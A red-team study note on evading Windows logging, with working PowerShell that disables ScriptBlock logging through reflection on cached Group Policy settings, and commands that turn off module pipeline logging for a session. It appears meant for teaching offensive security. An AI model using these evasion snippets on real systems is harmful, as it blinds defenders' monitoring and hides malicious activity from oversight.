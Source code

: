 **You should love this because:**

- Stealthier: it does not touch disk, no permanent changes
- Fast
- Granular: you can disable only the specific logging providers you want.

```C
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

To comply with PS5.1 updates, the above script should be used

```C
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
```

Before:

![Evading Logging and Monitoring-10.png](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-10.png)

After:

![Evading Logging and Monitoring-11.png](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-11.png)
### Abusing Log Pipeline
---
Disabling the module logging in PowerShell for the **current session only** by setting `LogPipeLineExecutionDetails` from `$true` to `$false`.

**1. Obtain the target module**

```C
$module = Get-Module Microsoft.PowerShell.Utility
```

- `Get-Module` returns information about the module currently loaded in memory.
- In this case, they target `Microsoft.PowerShell.Utility` (a core module with many built-in cmdlets).

**2. Set the logging flag to false**

```C
$module.LogPipelineExecutionDetails = $false
```
